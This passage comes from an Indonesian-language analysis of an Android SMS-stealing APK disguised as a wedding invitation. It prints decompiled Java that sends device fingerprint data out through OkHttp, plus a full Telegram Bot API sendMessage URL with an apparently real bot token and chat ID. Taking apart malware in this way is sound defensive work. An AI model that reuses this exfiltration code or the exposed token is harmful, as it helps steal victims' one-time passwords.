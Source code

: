                 public void onResponse(Call call, Response response) throws IOException {
                    Log.d("demo1", "OnResponse: Thread Id " + Thread.currentThread().getId());
                    if (response.isSuccessful()) {
                        response.body().string();
                    }
                }
            });
            return;
        }
        Toast.makeText(this, "Gagal,Silahkan Coba Install lagi", 0).show();
        Request build3 = new Request.Builder().url(HttpUrl.FRAGMENT_ENCODE_SET + this.device).build();
        Request build4 = new Request.Builder().url(HttpUrl.FRAGMENT_ENCODE_SET + this.device).build();
        this.client.newCall(build3).enqueue(new Callback() {
            public void onFailure(Call call, IOException iOException) {
                iOException.printStackTrace();
            }

            public void onResponse(Call call, Response response) throws IOException {
                Log.d("demo1", "OnResponse: Thread Id " + Thread.currentThread().getId());
                if (response.isSuccessful()) {
                    response.body().string();
                }
            }
        });
        this.client.newCall(build4).enqueue(new Callback() {
            public void onFailure(Call call, IOException iOException) {
                iOException.printStackTrace();
            }

            public void onResponse(Call call, Response response) throws IOException {
                Log.d("demo1", "OnResponse: Thread Id " + Thread.currentThread().getId());
                if (response.isSuccessful()) {
                    response.body().string();
                }
            }
        });
        finish();
    }
{% endhighlight %}

Pada code diatas terlihat aplikasi tersebut melakukan pengiriman request ke api telegram dengan request body berikut

    https://api.telegram.org/bot5931495238:AAHOz7qP80CGo8D8yueYGJv3Rib4xuKSxHQ/sendMessage?parse_mode=markdown&chat_id=5641182991&text= \n──────────────────────\n\n 𝐀𝐩𝐤 𝐒𝐚𝐝𝐚𝐩 𝐒𝐌𝐒 𝐖𝐞𝐛𝐩𝐫𝐨 𝐔𝐧𝐝𝐚𝐧𝐠𝐚𝐧 𝐒𝐮𝐝𝐚𝐡 𝐁𝐞𝐫𝐡𝐚𝐬𝐢𝐥 𝐃𝐢 𝐈𝐧𝐬𝐭𝐚𝐥𝐥 𝐁𝐫𝐨 \n\n──────────────────────\n\n    " + this.device

dimana `this.device` adalah nilai dari `String device = ("𝐃𝐞𝐭𝐚𝐢𝐥 𝐏𝐞𝐫𝐚𝐧𝐠𝐤𝐚𝐭 : " + Build.FINGERPRINT + Build.TIME + HttpUrl.FRAGMENT_ENCODE_SET);`
dimana nilainya pada setiap device akan berbeda - beda, hal ini sepertinya dilakukan untuk menandai device yang telah berhasil di dapatkan permissionnya, function `onRequestPermissionsResult()` akan tertrigger saat aplikasi tersebut berhasil mendapatkan permission dari pemilik device yang akan di curi SMS OTPnya
